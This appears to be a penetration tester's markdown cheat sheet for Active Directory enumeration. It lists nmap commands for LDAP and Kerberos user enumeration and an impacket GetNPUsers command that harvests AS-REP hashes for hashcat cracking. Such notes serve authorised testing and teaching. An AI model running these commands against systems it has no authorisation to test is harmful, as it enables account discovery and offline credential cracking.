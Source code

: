 # Services

- check smb shares, see ../windows/smbmap.md
- check enum4linux, see ./enum4linux.md


# enumerate LDAP

```bash
nmap -n -sV --script "ldap* and not brute" -p 389 $rhost
```

# enumerate users with kerberos

```bash
nmap -p 88 --script=krb5-enum-users --script-args krb5-enum-users.realm='<some.domain>',userdb=/usr/share/seclists/Usernames/cirt-default-usernames.txt $rhost
```

# enumerate with AS_REP message

```bash
python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py <some.domain>/ -usersfile /usr/share/seclists/Usernames/Honeypot-Captures/multiplesources-users-fabian-fingerle.de.txt -format hashcat -outputfile hashes.asreproast
```
